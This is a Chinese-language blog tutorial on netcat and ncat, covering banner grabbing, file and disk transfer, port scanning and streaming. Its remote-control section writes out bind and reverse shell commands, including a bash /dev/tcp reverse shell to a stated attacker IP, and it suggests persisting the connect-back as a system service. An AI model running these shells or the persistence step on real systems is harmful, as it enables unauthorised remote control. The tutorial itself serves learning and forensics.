 # 工具 - netcat使用




# netcat使用


## 简介
- 侦听模式/传输模式
- 可以替代telent  / 获取banner信息
- 传输文本信息
- 传输文件/目录
- 加密传输文件
- 远程控制/木马
- 加密所有流量
- 流媒体服务器
- 远程克隆硬盘


## 基本用法
####  <font color=red>1. 实现telnet / banner</font>
```bash
# 题外话:追踪路由
mtr 114.114.114.114 

## nc作为客户端：
# 参数 -v  显示详细信息 
# 参数  -n  如果是域名,不进行域名解析(建议直接跟ip地址)
nc -nv 1.1.1.1 110   # 连接pop3服务器，可以看到banner信息（可以进行user登录[base64编码],输入指令）
nc -nv 1.1.1.1 25    # smtp服务器
nc -nv 1.1.1.1 80    # 探测80端口(都可进行交互的命令)

```

####  <font color=red>2.传输文本信息</font>
```bash
# 可以做聊天用
# 一台作为服务端    -l 监听, -p 端口
nc -l -p 4444
# 另一台作为客户端去连接服务端
nc -nv 1.1.1.1 4444

```
![](http://image.xpshuai.cn/nc_use.png)

###### 用途：
**远程电子取证** (原则:尽可能少修改被审计系统的状态，避免影响证据)
就可以用`nc`来操作:
我的电脑: `nc -l -p 3333`  监听
被审计系统:`ls -l | nc -nv 1.1.1.1 3333` 输出到我的电脑

我的电脑: `nc -l -p 3333 > ps.txt`   输出结果重定向到文件
被审计系统:`ps -ef | nc -nv 1.1.1.1 3333 -q 1`    参数-q: 输出完成之后过1秒就断开

题外话：`lsof` 查看已经打开的文件



####  <font color=red>3.传输文件/目录</font>
###### 传输文件
```bash
# 客户端向服务端传输  （正向） 
A： nc-lp 3333 > 1.mp4
B:  nc -nv 1.1.1.1 3333 < 1.mp4 -q 1
# 或者, 服务端向客户端传输文件  （反向）
A:  nc -q 1 -lp 3333 < a.mp4
B:  nc -nv 1.1.1.1 3333 > 2.mp4
```

###### 传输目录
```bash
# 正向(服务端先打包再传给客户端,注意小横线别遗漏)
A:  tar -cvf - music/ | nc -lp 3333 -q 1
B:  nc -nv 1.1.1.1 3333 | tar -xvf -     # 先接收再解包
```

###### 加密传文件
```bash
A： nc -lp 3333 | mcrypt --flush -Fbqd -a rijndael-256-m ecb > 1.mp4     # 接收，解密
B： mcrypt --fulsh -Fbq -a rijndael-256-m ecb < a.mp4 | nc 1.1.1.1 3333 -q 1   # 加密，传送
# 需要输入加密秘钥，解密秘钥
# 不是nc的加密功能，是操作系统的加密命令，可以自行安装
```

#### <font color=red>4.流媒体</font>
```bash
#把视频流输出到B端
A:  cat 1.mp4 | nc -lp 3333
B:  nc -nv 1.1.1.1 3333 | mplayer -vo x11 -cache 3000 -
#接收视频流，输出给指定播放器和缓存进行播放
```

#### <font color=red>5.端口扫描</font>
>以客户端角色
```bash
#并非擅长端口扫描
#参数 -z 扫描参数，只判断是否开放（默认tcp）
nc -nvz 1.1.1.1 1-65535
#参数 -u  扫描udp服务的端口 （不太准确）
nc -nvzu 1.1.1.1 1-1024
```

#### <font color=red>6.远程克隆硬盘</font>
**远程电子取证**，可以将目标服务器硬盘远程复制(`块`级别的备份,`磁盘磁道的状态原原本本的复制`)，或者内存(内存中运行的病毒进程)
```bash
A:  nc -lp 3333 | dd of=/dev/sda
B:  dd -if=/dev/sda | nc -nv 1.1.1.1 3333 -q 1
```

####  <font color=red>7.远程控制</font>
参数: -c 
**正向：**   目标机器作为服务端监听, 把bash传给我
```bash
A:  nc -lp 3333 -c bash   #目标机器
B:  nc 1.1.1.1 3333
```
**反向：**    我的机器作为服务端, 让目标机器作为客户端主动连接我(客户端把bash传给服务器端)
```bash
A:  nc -lvp 3333       
B:  nc 1.1.1.1 3333 -c bash    #目标机器

#假如nc不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell
目标机器： bash -i >& /dev/tcp/192.168.41.133/2223 0>&1
攻击方： nc -lvvp 2223
```

>Note: Windows用户把bash改为cmd

> 反向连接用的多， 因为好多都限制进入的流量而不太多限制出去的流量(根据他允许的端口调整,比如dns)

> 长久维持会话： 写成脚本作为系统服务，让目标机器已启动就连接我



## ncat 命令
<font color=red> **nc缺陷：**</font>
- nc缺乏加密能力：是数据是明文传输（容易被别人嗅探）
- 缺乏身份验证能力：端口如果一直向外开放，容易被他人连接窃取当做肉鸡
- 不同系统/平台的nc参数功能不尽相同（自己 -h 查看帮助文档和测试）

<font color=red> **ncat 命令**</font>
是包含在nmap工具包中里面的一个东西(弥补了nc缺乏加密和身份验证的不足)

正向连接：
```bash
#先进行了秘钥交换和加密
#被控端(服务器端)   -allow允许连接的ip， 端口, ssl加密
A:  ncat -c bash -allow 192.168.1.20 -vnl 3333 --ssl
B:  ncat -nv 192.168.1.19 3333 --ssl      #攻击端
```

## 其他
... ...




---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/%E5%B7%A5%E5%85%B7-netcat%E4%BD%BF%E7%94%A8/  

